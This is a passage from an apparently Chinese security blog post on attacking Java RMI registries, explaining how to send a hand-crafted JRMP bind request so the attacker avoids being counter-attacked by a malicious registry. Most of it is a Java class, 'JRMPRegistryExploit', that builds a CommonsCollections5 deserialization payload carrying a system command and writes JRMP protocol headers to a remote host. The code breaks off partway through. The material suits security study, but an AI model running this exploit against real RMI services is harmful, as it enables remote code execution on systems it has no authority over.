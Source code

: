 #### ysoserial反制与防范
根据上文所说，注册中心和服务端实际上是能够互相攻击的，也就是说当我们攻击的时候，我们也可能遭受攻击。

那么我们要如何避免这种情况呢？答案是用socket模拟JRMP协议发包，其实与后面文章中**客户端攻击注册中心**的ysoserial中exploit/JRMPClient的代码类似，只是我们触发反序列化点的方式不一样。
这里也参考了[attack-rmi-registry-and-server-with-socket](https://xz.aliyun.com/t/8247)与ysoserial中exploit/JRMPClient的代码，稍作修改即可，通过手动模拟JRMP发包作为恶意服务端发送一个bind请求攻击注册中心，防止了反制。
```java
package top.longlone.RMIStudy;

import sun.rmi.server.MarshalOutputStream;
import sun.rmi.transport.TransportConstants;
import top.longlone.CC5;

import javax.net.SocketFactory;
import java.io.DataOutputStream;
import java.io.ObjectOutputStream;
import java.io.OutputStream;
import java.net.InetSocketAddress;
import java.net.Socket;

public class JRMPRegistryExploit {
    public static void main(String[] args) throws Exception {
        if (args.length == 0) {
            // 如果不指定连接参数默认连接本地RMI服务
            args = new String[]{"127.0.0.1", String.valueOf(1099), "calc.exe"};
        }

        // 远程RMI服务IP
        final String host = args[0];

        // 远程RMI服务端口
        final int port = Integer.parseInt(args[1]);

        // 需要执行的系统命令
        final String command = args[2];

        Socket s = null;
        DataOutputStream dos = null;

        try {
            // 创建恶意的Payload对象
            Object payloadObject = CC5.getPayload(command);

            InetSocketAddress isa = new InetSocketAddress(host, port);
            // 建立和远程RMI服务的Socket连接
            s = SocketFactory.getDefault().createSocket(host, port);
            s.setKeepAlive(true);
            s.setTcpNoDelay(true);

            // 获取Socket的输出流对象
            OutputStream os = s.getOutputStream();

            // 将Socket的输出流转换成DataOutputStream对象
            dos = new DataOutputStream(os);


            // 向远程RMI服务端Socket写入RMI协议并通过JRMP传输Payload序列化对象
            dos.writeInt(TransportConstants.Magic);// 魔数
            dos.writeShort(TransportConstants.Version);// 版本
            dos.writeByte(TransportConstants.SingleOpProtocol);// 协议类型
            dos.write(TransportConstants.Call);// RMI调用指令

            ObjectOutputStream objOut = new MarshalOutputStream(dos);
```